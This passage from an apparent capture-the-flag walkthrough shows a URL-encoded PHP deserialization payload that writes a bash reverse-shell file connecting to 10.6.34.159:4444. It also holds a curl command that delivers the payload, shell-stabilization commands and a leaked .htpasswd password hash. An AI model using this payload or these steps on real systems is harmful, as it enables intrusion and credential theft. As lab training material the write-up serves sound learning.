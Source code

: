 ```
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.6.34.159%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Now, use curl to upload the reverse shell:

```
curl "http://10.10.109.3/index.php?debug=GENERATED_PAYLOAD"
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407135556.png)

It will upload the file successfully and we can get the reverse shell by visiting:

```
http://TARGET_IP/shell.php
```


If we check our listener, we get the connection:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407135634.png)

Let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---


We can begin by stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407135735.png)

We can find this inside of `/var/www/html`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407141523.png)

We got a `.htpasswd` file:

```
www-data@osboxes:/var/www/html$ cat .htpasswd
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```
